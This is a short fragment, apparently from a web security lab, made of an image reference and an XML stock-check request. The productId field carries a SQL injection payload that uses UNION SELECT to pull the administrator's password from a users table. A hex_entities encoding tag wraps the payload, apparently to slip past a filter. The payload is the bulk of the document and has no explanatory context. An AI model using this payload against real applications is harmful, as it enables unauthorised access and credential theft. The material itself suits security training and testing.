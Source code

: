 <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId><@hex_entities>1 UNION SELECT password from users where username ='administrator'--</@hex_entities></productId><storeId>3</storeId></stockCheck>
